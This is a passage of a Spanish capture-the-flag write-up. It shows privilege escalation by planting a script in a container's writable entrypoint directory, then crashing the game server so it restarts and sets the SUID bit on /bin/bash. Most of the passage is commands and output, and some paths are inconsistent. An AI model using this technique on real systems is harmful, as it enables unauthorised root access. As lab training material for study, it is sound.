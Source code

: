 <img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686606113/early_game_9999_m2kows.webp'
/>

Ahora en <i>/</i> tenemos un archivo llamado <i>entrypoint.sh</i>

```bash
game-tester@game-server:/$ cat entrypoint.sh
#!/bin/bash
for ep in /docker-entrypoint.d/*; do
if [ -x "$(ep)" ]; then
echo "Running: \${ep}"
"\${ep}" &
fi
done
tail -f /dev/null
```

vemos que en <i>/docker-entrypoint.d</i> tenemos un archivo <i>node-server.sh</i>...

```bash
game-tester@game-server:/$ cat node-server.sh
service ssh start

cd /usr/src/app

# Install dependencies
npm install
sudo -u node node server.js
```

coger cada archivo dentro de <i>/docker-entrypoint.d</i> y lo ejecuta, pero el <i>node-server.sh</i> lo tendrá que traerlo de alguna ruta para ello
ejecutamos...

```bash
find \\-name node-server.sh 2>/dev/null
./opt/docker-entrypoint.d/node-server.sh
```

es esta la ruta donde tendremos que crear nuestro script para ganar acceso y
tratar de petar el juego como por ejemplo <i>curl http://127.0.0.1:9999/autoplay -d 'rounds=-1'</i>

```bash
drew@earlyaccess:/$ while true; do echo "chmod u+s /bin/bash" > /opt/docker-entrypoint/miscript.sh; chmod +x /opt/docker-entrypoint/miscript.sh;sleep 1; done
```

y del otro lado... y esperamos ....

```bash
game-tester@game-server:/$ curl http://127.0.0.1:9999/autoplay -d 'rounds=-1'
Connection to 172.19.0.3 closed by remote host.
Connection to 172.19.0.3 closed.
drew@earlyaccess:~/.shh
```
